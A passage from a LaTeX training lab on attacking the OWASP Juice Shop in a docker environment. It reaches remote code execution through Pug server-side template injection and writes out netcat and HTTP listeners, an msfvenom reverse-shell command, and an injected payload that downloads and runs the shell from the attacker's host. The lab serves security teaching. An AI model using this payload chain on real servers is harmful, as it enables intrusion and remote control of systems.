It worked ! We got the \texttt{.bak} file download, but we can do that
on all the other files. Here, using the coupons file, we have the
following content:


\includegraphics{Images/Image22.png}

Maybe some of the coupons still work ?

\subsubsection{Optional: RCE into Reverse
shell}\label{optional-rce-into-reverse-shell}

Once again, Juice-shop assumed that you did a lot of reconnaissance on
the website in order to detect and list all the anomalies. But for the
simplicity of this training, we will focus on the next steps of the
cyber kill chain and get the reconnaissance as already done.

Doing some recon on the website, you should have noticed that
\url{http://192.168.3.12/profile} (while connected to an account), is
not an Angular JS page. This page uses Pug, a Template engine, which is
perfect for some SSTi (Server Side Template Injection).

\newpage 

Let's play with the username field:


\includegraphics{Images/Image23.png}

You see your username in \texttt{\textbackslash{}test} format, but doing
some SSTi, you can change its format. Try with \texttt{\#\{test\}}
instead of \texttt{test}, the \texttt{\textbackslash{}} should disappear
! You have just injected some Template into the page.

Like for XSS, we can potentially run some code on the server itself,
this is called RCE for Remote Code Execution. This is done for example
by the lack of encapsulation of JavaScript, resulting into the capacity
of loading libraries that can allow you to spawn a process that will run
your commands.

Let's start two terminal in Eve docker container. In one of them, we run
a python http server, and in the second one, we run a netcat command.
This classic setup is useful for sending a payload to a remote server
that we host locally using the python http server, using netcat to
discuss with the sent payload.

\begin{itemize}
\tightlist
\item
  Python http server command: \texttt{python3\ -m\ http.server\ 80}
\item
  netcat command: \texttt{nc\ -lnvp\ 4444}
\end{itemize}

Now, we will open a third terminal in Eve docker container and we will
craft a payload called a Reverse Shell. Because we have firewalls that
usually allow output traffic and filter input traffic, we try to put a
shell that will initiate the connection \textbf{from} the victim
\textbf{to} the attacker in order to bypass the firewall rules. In our
case, we will craft the Reverse shell using \texttt{msfvenom} like so:

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{msfvenom {-}p linux/x86/shell\_reverse\_tcp LHOST=192.168.4.3 LPORT=4444 {-}f elf {-}o shell}
\end{Highlighting}
\end{Shaded}

Here is a quick explanation of each parameters:

\begin{itemize}
\tightlist
\item
  \texttt{-p\ linux/x86/shell\_reverse\_tcp} --\textgreater{} specify
  the payload we want, in this case a Reverse shell using TCP and
  running on linux OS (we know the os from scenario 1!)
\item
  \texttt{LHOST=192.168.4.3} --\textgreater{} this is the IP that the
  reverse shell will connect
\item
  \texttt{LPORT=4444} --\textgreater{} this is the port the reverse
  shell will use to connect ( that is why the netcat command is
  listening to port 4444)
\item
  \texttt{-f\ elf} --\textgreater{} that is the format of the payload,
  elf format being the executable format on linux
\item
  \texttt{-o\ shell} --\textgreater{} simply specify the name of the
  payload we want
\end{itemize}

Once the payload is created in the directory \texttt{/root}, we can set
the following username :

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{\#\{}\BuiltInTok{global}\OperatorTok{.}\AttributeTok{process}\OperatorTok{.}\AttributeTok{mainModule}\OperatorTok{.}\FunctionTok{require}\NormalTok{(}\StringTok{\textquotesingle{}child\_process\textquotesingle{}}\NormalTok{)}\OperatorTok{.}\FunctionTok{exec}\NormalTok{(}\StringTok{\textquotesingle{}curl }
\DataTypeTok{http}\OperatorTok{:}\NormalTok{//192.168.4.3/shell {-}o shell \&\& chmod +x shell \&\& ./shell\textquotesingle{})\}}
\end{Highlighting}
\end{Shaded}

After setting the username, check the two terminals containing the
python http server and the other containing the netcat command. You
should see confirmation of the download shell from python http server
and also, a confirmation on the netcat command that you are connected:
\texttt{connect\ to\ {[}192.168.4.3{]}\ from\ (UNKNOWN)\ {[}192.168.4.10{]}\ 52746}.
It means you can run commands on the server from the netcat terminal !

Try running \texttt{ls} or \texttt{pwd} or even \texttt{whoami}
commands.

If you want to upgrade your netcat terminal to a tty, run the following
:

\includegraphics{Images/Image24.png}

You now have a reverse shell into the HTTP server with root access !
Which means you pwned Juice-shop and can use it to do the scenario 1
again, but directly from inside the DMZ. Usually, with more strict
firewalls, you might be able to do specific scans only from the inside
of the DMZ for example !

\end{document}